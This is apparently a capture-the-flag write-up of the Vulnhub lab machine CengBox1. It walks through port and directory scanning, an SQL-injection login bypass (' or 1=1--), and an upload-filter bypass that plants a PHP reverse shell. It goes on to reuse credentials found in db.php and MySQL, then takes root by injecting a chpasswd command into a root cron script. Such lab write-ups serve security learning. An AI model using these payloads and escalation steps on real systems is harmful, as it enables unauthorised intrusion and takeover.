 ```yaml
---
title: Vulnhub - CengBox1
description: My writeup on CengBox1 box.
categories:
 - vulnhub
tags: vulnhub sqli python php cronjob pspy shell
---
```


![](https://i.imgur.com/9GTOe3V.png)

Hi all, that was a really easy box.

You can find the machine there > [CengBox1](https://www.vulnhub.com/entry/cengbox-1,475/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.2
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-03 15:28 EEST
Nmap scan report for cengbox.zte.com.cn (192.168.1.2)
Host is up (0.00045s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:cc:28:f3:8c:f5:0e:3f:5a:ed:13:f3:ad:53:13:9b (RSA)
|   256 f7:3a:a3:ff:a1:f7:e5:1b:1e:6f:58:5f:c7:02:55:9b (ECDSA)
|_  256 f0:dd:2e:1d:3d:0a:e8:c1:5f:52:7c:55:2c:dc:1e:ef (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: CEng Company
MAC Address: 08:00:27:73:EB:42 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's run `gobuster` on it!

```
$ gobuster dir -q -u http://$ip/ -w /root/Documents/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -x php,txt,html -o gobuster.txt
/js (Status: 301)
/css (Status: 301)
/img (Status: 301)
/uploads (Status: 301)
/index.php (Status: 200)
/vendor (Status: 301)
/server-status (Status: 403)
/masteradmin (Status: 301)
/index.php (Status: 200)
```

So the interesting directories are :

```
/uploads
/masteradmin
```

But all of them give `Forbidden`, let's run `gobuster` inside `/masteradmin` for further enumeration.

```
$ gobuster dir -q -u http://$ip/masteradmin/ -w /root/Documents/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -x php,txt,html -o gobuster2.txt
/images (Status: 301)
/js (Status: 301)
/css (Status: 301)
/login.php (Status: 200)
/upload.php (Status: 200)
/db.php (Status: 200)
/fonts (Status: 301)
/vendor (Status: 301)
```

## SQL Injection Authentication Bypass - Shell as www-data

Here we go `/login.php` asks for credentials :

![](https://i.imgur.com/9zmQYvL.png)

I tried the classic ones `admin:admin` or `guest:guest` but nothing, so i decided to exploit this manually without using sqlmap.

The source code will be something like :

```php
$username=$_POST['username'];
$password=$_POST['password'];
$query="select username,pass from users where username='$username' and password='$password' limit 0,1";
```

So here takes the user input and put it into the SQL query. So here we can see the query is quoting the input with single quote, that means we have to use a single quote to close the first quote and then inject our payload.

Like :

```
username : ' or 1=1--
password : ' or 1=1--
```

And we're in! :D We can see this upload form :

![](https://i.imgur.com/uqlojG4.png)

Let's try to create a simple php script to see if we can execute php code.

```php
$ cat test.php 
<?php
echo "hellooooo";
?>
```

When we upload it we can see this error -> `extension not allowed, please choose a CENG file.` Alright, let's rename our `test.php` to `test.CENG`.

Now it says : `Success` & we can find the file under `/uploads/test.CENG`

![](https://i.imgur.com/WOf5Kow.png)

Now let's simply upload our shell as `CENG` file :)

We have shell, i'll show you some tricks for fully interactive reverse shell.

```
$ nc -lvp 6666
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cengbox:/$ ^Z (ctrl + z)
[1]+  Stopped                 nc -lvp 6666
$ stty raw -echo
$ fg
www-data@cengbox:/$ export TERM=xterm
www-data@cengbox:/$
```

## www-data -> cengover

Now we can see this inside `db.php` :

```php
www-data@cengbox:/var/www/html/masteradmin$ cat db.php
<?php
$serverName = "localhost";
$username = "root";
$password = "SuperS3cR3TPassw0rd1!";
```

Let's connect to mysql and search for credentials.

```
www-data@cengbox:/var/www/html/masteradmin$ mysql -u root -p
Enter password: 

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cengbox            |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use cengbox;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_cengbox |
+-------------------+
| admin             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from admin;
+----+-------------+---------------+
| id | username    | password      |
+----+-------------+---------------+
|  1 | masteradmin | C3ng0v3R00T1! |
+----+-------------+---------------+
1 row in set (0.00 sec)

mysql> exit;
```

Great, let's use this password with the system user `cengover` :

```
www-data@cengbox:/var/www/html/masteradmin$ su - cengover
Password: 
cengover@cengbox:~$ whoami
cengover
```

## cengover -> root

Perfect, now we need to transfer `pspy` to detect a cronjob.

```
cengover@cengbox:~$ cd /tmp
cengover@cengbox:/tmp$ wget -q $ip/pspy64; chmod +x pspy64
cengover@cengbox:/tmp$ ./pspy64 -p -i 1000
```

This file runs as root :

```
2020/07/03 16:20:01 CMD: UID=0    PID=1661   | /bin/sh -c /usr/bin/python3 /opt/md5check.py 
```

I discovered a new trick, instead of using a reverse shell or something we can simply change root password. Add this :

```python
import os
os.system("echo 'root:pwned' | sudo chpasswd")
```

And now we can login in as root :

```
cengover@cengbox:/opt$ su - root
Password: 
root@cengbox:~# 
```

Let's read the flag :

```
root@cengbox:~# cat /root/root.txt
 / ____|  ____|           |  _ \           
| |    | |__   _ __   __ _| |_) | _____  __
| |    |  __| | '_ \ / _` |  _ < / _ \ \/ /
| |____| |____| | | | (_| | |_) | (_) >  < 
 \_____|______|_| |_|\__, |____/ \___/_/\_\
                      __/ |                
                     |___/                 

Congrats. Hope you enjoyed it and you can contact me on Twitter @arslanblcn_

a51e522b22a439b8e1b22d84f71cf0f2
root@cengbox:~# 
```

Fun box :)

